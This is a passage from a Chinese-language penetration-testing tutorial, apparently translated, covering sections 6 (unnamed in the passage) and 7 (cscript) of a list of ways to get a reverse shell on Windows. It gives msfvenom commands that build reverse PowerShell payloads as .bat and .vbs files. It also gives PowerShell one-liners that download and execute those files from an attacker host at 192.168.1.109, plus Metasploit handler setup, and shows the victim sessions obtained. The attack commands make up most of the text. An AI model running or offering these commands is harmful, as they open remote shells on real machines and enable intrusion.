 ```bash
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=4444 > 1.bat
```



![img](https://i0.wp.com/1.bp.blogspot.com/-OdUOi3cMRQs/XERxGnqbssI/AAAAAAAAcI0/SEKI54JsGeYJXEibvsA_6tlJh0k5qiDFwCLcBGAs/s1600/27.png?w=687&ssl=1)

然后在远程端执行以下命令以获取natcat会话。

```powershell
powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/1.bat'))
```



![img](https://i2.wp.com/4.bp.blogspot.com/-0CmovKHOJrM/XERxHCRIPnI/AAAAAAAAcI4/ObUMBfxp2uk-erbTVLlt3Dw9XuzTBBkCACLcBGAs/s1600/28.png?w=687&ssl=1)

你可以观察到，我们有受害者的netcat会话，如下所示：

![img](https://i1.wp.com/1.bp.blogspot.com/-4Mnl67YAD6s/XERxH_3GZjI/AAAAAAAAcJA/Uvop5v5QilMx_yYqc65rFYT7oVLhg5uvgCLcBGAs/s1600/29.png?w=687&ssl=1)

## **七、CSCRIPT**

同样，powershell允许客户端执行**cscript.exe**来运行**wsf，js**和**vbs**脚本，因此让我们使用msfvenom生成恶意bat文件，如下所示，并启动multi / handler作为监听器。

```bash
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=1234 -f vbs > 1.vbs
```



![img](https://i1.wp.com/1.bp.blogspot.com/-pBOo1dseDgE/XERxH0We7tI/AAAAAAAAcJE/5RCKtv1aKGAfV7zFzqYUY1Xjh61G7ALbwCLcBGAs/s1600/30.1.png?w=687&ssl=1)

然后在远程端执行以下命令以获取meterpreter会话。

```powershell
powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://192.168.1.109/1.vbs',\"$env:temp\test.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\test.vbs\""
```



![img](https://i1.wp.com/1.bp.blogspot.com/-PvnGPj2GVGA/XERxIFksOFI/AAAAAAAAcJI/4yLhVGVqkvg_pnQgLq0fKjejrLkjpF_jgCLcBGAs/s1600/30.2.png?w=687&ssl=1)

```bash
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```



您可以观察到，我们有受害者的计时器会话，如下所示：

![img](https://i0.wp.com/2.bp.blogspot.com/-aymk9tuvy9g/XERxImvP91I/AAAAAAAAcJM/De-FehRxf4s7irNF2M7VFA8m8Am1KJxrgCLcBGAs/s1600/30.3.png?w=687&ssl=1)

## 八、msiexec.exe
